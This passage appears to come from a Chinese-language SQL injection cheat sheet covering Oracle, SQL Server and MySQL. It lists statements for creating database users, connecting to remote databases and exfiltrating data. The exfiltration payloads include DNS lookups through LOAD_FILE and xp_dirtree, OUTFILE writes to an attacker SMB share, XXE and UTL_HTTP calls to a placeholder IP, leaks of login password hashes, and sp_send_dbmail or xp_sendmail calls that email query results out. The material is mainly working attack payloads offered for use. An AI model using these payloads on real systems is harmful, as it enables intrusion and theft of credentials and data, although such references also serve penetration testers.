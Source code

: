 #### Oracle

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>创建用户</td><td align="center">CREATE USER user IDENTIFIED by pass;</td></tr><tr><td>删除用户</td><td align="center">DROP USER user</td></tr></tbody></table>

#### **SQL Server**

**`*`需要特权用户**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>创建用户</td><td align="center">EXEC sp_addlogin 'user', 'pass';</td></tr><tr><td>删除用户</td><td align="center">EXEC sp_droplogin 'user';</td></tr><tr><td>链接抓取</td><td align="center">https://blog.netspi.com/sql-server-link-crawling-powerupsql/</td></tr><tr><td>作为当前服务连接到远程数据库</td><td align="center">--Requires sysadmin&nbsp;<br>SELECT * FROM OPENDATASOURCE('SQLNCLI', 'Server=MSSQLSRV04\SQLSERVER2016;Trusted_Connection=yes;').master.dbo.sysdatabases</td></tr></tbody></table>

### **7、数据泄露**

泄漏的数据以及任何受损数据的脱机副本可以用来做数据分析。数据可以通过文件，各种 Layer 4 请求和隐藏技术被泄漏。

**`*` 需要特权用户**

#### **MySQL**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>DNS 请求</td><td align="center"><code>SELECT LOAD\_FILE(concat('\\\\',(QUERY\_WITH\_ONLY\_ONE\_ROW), 'yourhost.com\\'))</code></td></tr><tr><td>SMB 分享</td><td align="center"><code>SELECT * FROM USERS INTO OUTFILE '\\attacker\SMBshare\output.txt'</code></td></tr><tr><td>HTTP 服务器</td><td align="center"><code>SELECT * FROM USERS INTO OUTFILE '/var/www/html/output.txt'</code></td></tr><tr><td>数字连接</td><td align="center"><code>SELECT length(user())</code><br><code>SELECT ASCII(substr(user(),1))&nbsp;</code><br>当数据只能作为数字导出时，转换为 ASCII。有关自动化点击此处连接.</td></tr></tbody></table>

#### Oracle

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>将多行合并为一行</td><td align="center"><code>SELECT dbms_xmlgen.getxmltype('select user from dual') FROM dual</code></td></tr><tr><td>XML 外部实体</td><td align="center"><code>SELECT xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://IP/test"&gt; %remote; %param1;]&gt;') FROM dual;</code></td></tr><tr><td>URL_HTTP 请求 (Pre-11gR2)</td><td align="center"><code>SELECT UTL_HTTP.request ('http://IP/test') FROM dual;</code></td></tr><tr><td>避免特殊字符</td><td align="center"><code>SELECT UTL_URL.escape('http://IP/'</code>&nbsp;&nbsp;||&nbsp;<code>USER) FROM dual;</code></td></tr></tbody></table>

#### SQL Server

注意：可以从 MSSQL 发出 DNS 请求。但是，此请求需要管理员权限和 SQL Server 2005。

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>制造 DNS 请求</td><td align="center"><code>DECLARE @host varchar(800); select @host = name + '-' + master.sys.fn_varbintohexstr(password_hash) + 'netspi.com' from sys.sql_logins;exec('xp_fileexist "\' + @host + 'c$boot.ini"');</code></td></tr><tr><td>UNC 路径（DNS 请求）</td><td align="center"><code>xp_dirtree ‘\\data.domain.com\file’</code></td></tr><tr><td>启用<code>sp_send_dbmail</code>并发送查询</td><td align="center"><code>sp_configure 'show advanced options', 1;RECONFIGURE;sp_configure 'Database Mail XPs', 1;RECONFIGURE;exec msdb..sp_send_dbmail @recipients='harold@netspi.com',@query='select @@version';</code></td></tr><tr><td>基本的<code>xp_sendmail</code>查询</td><td align="center"><code>EXEC master..xp_sendmail 'harold@netspi.com', 'This is a test.'</code></td></tr><tr><td>使用<code>xp_sendmail</code>发送完整的电子邮件</td><td align="center"><code>EXEC xp_sendmail @recipients='harold@netspi.com', @message='This is a test.', @copy_recipients='test@netspi.com', @subject='TEST'</code></td></tr><tr><td>通过<code>xp_sendmail</code>发送查询结果</td><td align="center"><code>EXEC xp_sendmail 'harold@netspi.com', @query='SELECT @@version';</code></td></tr><tr><td>通过<code>xp_sendmail</code>发送查询结果作为附件</td><td align="center"><code>CREATE TABLE ##texttab (c1 text) INSERT ##texttab values ('Put messge here.') DECLARE @cmd varchar(56)SET @cmd = 'SELECT c1 from ##texttab'EXEC master.dbo.xp_sendmail 'robertk',@query = @cmd, @no_header='TRUE'DROP TABLE ##texttab</code></td></tr></tbody></table>
